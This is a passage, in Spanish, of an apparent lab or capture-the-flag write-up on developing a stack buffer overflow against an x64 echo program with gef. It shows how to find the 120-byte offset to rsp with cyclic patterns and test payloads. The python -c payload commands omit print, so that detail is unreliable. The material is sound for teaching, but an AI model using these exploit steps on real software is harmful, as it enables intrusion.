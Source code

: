 1. Buscamos cuantos A son necessarios antes de sobre escribir el **rsp**

    - creamos un pattern de 150 caracteres
    
        ```bash
        gef➤ pattern create 150
        [+] Generating a pattern of 150 bytes (n=4)
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        [+] Saved as '$_gef0'
        ```

    - lanzamos el script otra vez y pegamos los caracteres

        ```bash
        gef➤ r
        What do you want me to echo back? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaata
        aauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
        ```

    - el programa peta una vez mas pero el valor del `$rsp` a cambiado. Miramos el offset con el commando

        ```bash
        gef➤  pattern offset $rsp
        [+] Searching for '$rsp'
        [+] Found at offset 120 (little-endian search) likely
        ``` 

        Aqui vemos que tenemos que entrar 120 caracteres antes de sobre escribir el **rsp**.

    - Probamos con 120 A y 8 B. /!\ cuidado que como es una maquina x64 tenemos que poner 8 B y no 4.

        ```bash
        python -c '120*"A"+8*"B"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAABBBBBBBB

        gef➤ r
        What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
        #Output
        $rsp   : 0x00007fffffffde98  →  "BBBBBBBB"
        $rbp   : 0x4141414141414141 ("AAAAAAAA"?)
        $rsi   : 0x00000000004052a0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
        ```

    - añadimos 8 C para saber donde caen la cosas despues del **rsp**

        ```bash
        python -c '120*"A"+8*"B"+8*"C"'
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
        AABBBBBBBBCCCCCCCC

